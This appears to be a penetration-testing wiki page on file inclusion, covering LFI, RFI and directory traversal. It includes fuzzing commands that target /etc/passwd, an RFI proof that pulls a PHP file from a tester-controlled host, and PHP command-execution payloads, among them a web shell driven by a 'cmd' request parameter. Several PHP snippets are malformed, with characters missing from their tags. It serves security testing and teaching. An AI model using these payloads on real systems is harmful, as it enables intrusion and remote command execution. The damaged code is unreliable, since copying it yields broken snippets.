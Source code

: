 ```yaml
---
authors: ShutdownRepo
---
```


# File inclusion

## Theory

Many web applications manage files and use server-side scripts to include them. When input parameters (cookies, GET or POST parameters) used in those scripts are insufficiently validated and sanitized, these web apps can be vulnerable to file inclusion.

LFI/RFI (Local/Remote File Inclusion) attacks allow attackers to read sensitive files, include local or remote content that could lead to RCE (Remote Code Execution) or to client-side attacks such as XSS (Cross-Site Scripting).

[Directory traversal](../directory-traversal.md) (a.k.a. path traversal, directory climbing, backtracking, the dot dot slash attack) attacks allow attackers to access sensitive files on the file system, outside the web server directory. File inclusion attacks can leverage a directory traversal vulnerability to include files with a relative path.

## Practice

Testers need to identify input vectors (parts of the app that accept content from the users) that could be used for file-related operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

* Local File Inclusion: inclusion of a local file (in the webserver directory) using an absolute path
* LFI + directory traversal: inclusion of a local file (in the webserver directory or not) by "climbing" the server tree with `../` (relative path)
* Remote File Inclusion: inclusion of a remote file (not on the server) using a URI

The tool [dotdotpwn](https://github.com/wireghoul/dotdotpwn) (Perl) can help in finding and exploiting directory traversal vulnerabilities by fuzzing the web app. However, manual testing is usually more efficient.

```bash
# With a request file where /?argument=TRAVERSAL (request file must be in /usr/share/dotdotpwn)
dotdotpwn.pl -m payload -h $RHOST -x $RPORT -p $REQUESTFILE -k "root:" -f /etc/passwd

# Generate a wordlist in STDOUT that can be used by other fuzzers (ffuf, gobuster...)
dotdotpwn -m stdout -d 5
```

The tool [kadimus](https://github.com/P0cL4bs/Kadimus) (C) can help in finding and exploiting File Inclusion vulnerabilities. However, manual testing is usually more efficient.

```bash
kadimus --user-agent "PENTEST" -u '$URL/?parameter=value'
```

Depending on the environment, file inclusions can sometimes lead to RCE (Remote Code Execution) by including a local file containing code previously injected by the attacker or a remote file containing code that the server can execute.

Local file inclusions can sometimes be combined with other vulnerabilities to achieve code execution

* directory traversal
* null-byte injection
* unrestricted file upload
* log poisoning

Once an attacker is able to execute code on a target, testing the limitations of that code execution can help to go from code execution (e.g. PHP, ASPX, etc.) to command execution (e.g. Linux or Windows commands).

With PHP as example, the tester can create a `phpinfo.php` containing `php phpinfo(); ?` and use a simple HTTP server so that the target application can fetch it. When exploiting the RFI to include the `phpinfo.php` file, the tester server will send the plaintext PHP code to the target server that should execute the code and show the `phpinfo` in the response.

> [!WARNING]
> If the tester server used to host the `phpinfo.php` file can interpret PHP, it will. The tester will not achieve code execution on the target server but on his own instead. A simple HTTP server will do.

```bash
# Create phpinfo.php
echo 'php phpinfo(); ?' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```

If the phpinfo has been successfully printed in the response, the tester can engage a more offensive approach by trying to execute commands with one of the following payloads.

> [!TIP]
> As code execution functions can be filtered, the phpinfo testing phase is required to assert that arbitrary PHP code is included and interpreted.

```php
<php system('whoami'); ?>
```

```php
<php exec('whoami'); ?>
```

```php
<php passthru('whoami'); ?>
```

```php
<php shell_exec('whoami'); ?
```

```php
<php if(isset($_REQUEST['cmd'])){ echo "<pre"; $cmd = ($_REQUEST['cmd']); system($cmd); echo ""; die; }?>
```


> [!TIP]
> Read the "LFI to RCE" articles for more insight



> [!TIP]
> Read the [RFI to RCE](rfi-to-rce) article for more insight


## Resources

[https://www.acunetix.com/websitesecurity/directory-traversal](https://www.acunetix.com/websitesecurity/directory-traversal)

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)

[https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include.html](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include.html)
Directory traversal and File Include

[https://owasp.org/www-community/attacks/Path_Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
Testing for Directory traversal

[https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion.html](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion.html)
Testing for Remote File Inclusion

[https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion.html](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion.html)
Testing for Local File Inclusion

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
